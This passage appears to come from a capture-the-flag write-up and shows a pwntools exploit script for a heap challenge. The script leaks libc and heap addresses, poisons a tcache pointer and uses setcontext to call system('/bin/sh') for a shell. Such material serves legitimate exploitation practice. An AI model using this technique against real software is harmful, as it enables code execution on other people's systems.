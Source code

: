 def update(index, value):
    p.sendlineafter(b">>> ", b"2")
    p.sendlineafter(b">>> ", str(index).encode())
    p.sendlineafter(b">>> ", value)

def read8():
    value = 0
    for i in range(8):
        c = p.recv(1)
        if c == b'\\':
            p.recv(1) # the x in \x0a for example
            hex_num = p.recv(2)
            num = int(hex_num, 16)
            value += num * (0x100)**i
        else:
            value += ord(c) * (0x100)**i
    return value

def read(index):
    p.sendlineafter(b'>>>', b'3')
    p.sendlineafter(b'>>>', str(index).encode())
    p.recvuntil(b'key = ')
    key = read8()
    p.recvuntil(b'val = ')
    val = read8()
    
    return key, val
    
def delete(index):
    p.sendlineafter(b'>>>', b'4')
    p.sendlineafter(b'>>>', str(index).encode())

create(0, 0x300, b'', 0x300, b'')
create(1, 0x420, b'', 0x100, b'')

delete(0)
delete(1)

tcache_addr, _ = read(0)
unsorted_addr, _  = read(1)

libc_base = unsorted_addr - 0x21ace0
heap_base = tcache_addr * 0x1000

libc.address = libc_base

info("libc base @ " + hex(libc_base))
info("heap base @ " + hex(heap_base))

destination, payload = setcontext32(
    libc, rip=libc.sym["system"], rdi=libc.search(b"/bin/sh").__next__()
)

# tcache fd and bk "pointers" stored are xored with the heap base >> 12
update(0, p64(destination ^ tcache_addr)) 

# the second 0x300 chunk is at destination
create(0, 0x300, b'', 0x300, b'') 

# write in forged chunk
update(0, payload)

p.interactive()
{% endccb %}